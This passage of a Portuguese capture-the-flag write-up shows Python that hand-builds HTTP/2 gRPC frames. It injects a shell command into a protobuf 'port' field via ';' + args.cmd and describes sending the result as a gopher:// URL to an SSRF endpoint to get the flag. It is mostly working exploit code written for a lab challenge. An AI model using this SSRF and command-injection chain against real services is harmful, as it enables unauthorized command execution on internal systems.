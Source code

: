 Depois criamos o frame **HEADERS**, usando o encoder `hpack` para formatar corretamente os headers:
```python
def get_headers_frame():
	encoder = Encoder()
	headers = [
		(':method', 'POST'),
		(':scheme', 'http'),
		(':path', '/live.LiveDataService/CheckHealth'),
		(':authority', 'localhost:50051'),
		('content-type', 'application/grpc'),
		('te', 'trailers'),
	]
	encoded_headers = encoder.encode(headers)

	headers_header = len(encoded_headers).to_bytes(3, 'big') + b'\x01\x04' + b'\x00\x00\x00\x01'
	return headers_header + encoded_headers
```

Agora, criamos o payload gRPC. Para isso, você precisa usar os stubs gerados a partir do arquivo `.proto`.

> Para gerar os stubs, use o seguinte comando:  
> `python -m grpc_tools.protoc -I. --python_out=. --grpc_python_out=. live_data.proto`

O campo `port` é onde vamos injetar o comando:
```python
def get_grpc_frame(ip: str, port: str):
	request = live_data_pb2.HealthCheckRequest(ip=ip, port=port)
	grpc_payload = request.SerializeToString()

	return b'\x00' + len(grpc_payload).to_bytes(4, 'big') + grpc_payload
```

Por fim, juntamos tudo em um payload e escrevemos em um arquivo, ou, se quiser, já gera direto o `gopher://`.  

No meu caso, salvei num arquivo porque o código já estava pronto, por causa de testes anteriores... e eu estava com preguiça de alterar.
```python
grpc_frame = get_grpc_frame("127.0.0.1", ';' + args.cmd)
data_header = len(grpc_frame).to_bytes(3, 'big') + b'\x00\x01' + b'\x00\x00\x00\x01'
data_frame = data_header + grpc_frame

with open("grpc_request.bin", "wb") as f:
	f.write(b"PRI * HTTP/2.0\r\n\r\nSM\r\n\r\n")  # HTTP/2 connection preface
	f.write(get_settings_frame())
	f.write(get_headers_frame())
	f.write(data_frame)
```

Com o payload pronto, só encoda o payload em URL-encode e montar a URL `gopher://` e enviar para o endpoint `/connect-realm` e pegar a flag:
![Flag](imgs/flag.png)


